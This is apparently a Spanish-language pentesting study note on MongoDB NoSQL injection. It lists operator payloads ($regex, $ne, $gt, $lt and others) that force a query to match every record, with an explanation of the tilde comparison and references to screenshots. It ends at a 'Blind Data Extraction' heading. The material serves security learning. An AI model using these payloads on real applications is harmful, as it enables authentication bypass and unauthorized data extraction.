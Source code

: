#### Mas Payloads

Regex que coincide con todo:

```javascript
db.types.find({
    name: {$regex: /.*/}
});
```

hacer que no coincida on algo que no existe

```javascript
db.types.find({
    name: {$ne: 'doesntExist'}
});
```

mas grande que una cadena vacia:

```javascript
db.types.find({
    name: {$gt: ''}
});
```

```javascript
db.types.find({
    name: {$gte: ''}
});
```

Esto compara el primer carácter de `name` con un carácter Tilda y coincide si es 'menos'. Esto no siempre funcionará, pero funciona en este caso porque Tilda es el [valor ASCII imprimible más grande](https://www.asciitable.com/) y sabemos que todos los nombres de la colección están compuestos por caracteres ASCII.

```javascript
db.types.find({
    name: {$lt: '~'}
});
```

```javascript
db.types.find({
    name: {$lte: '~'}
});
```

**_Caso de uso:_**

![[Pasted image 20230502152629.png]]

![[Pasted image 20230502152714.png]]

![[Pasted image 20230502152731.png]]

### Blind Data Extraction
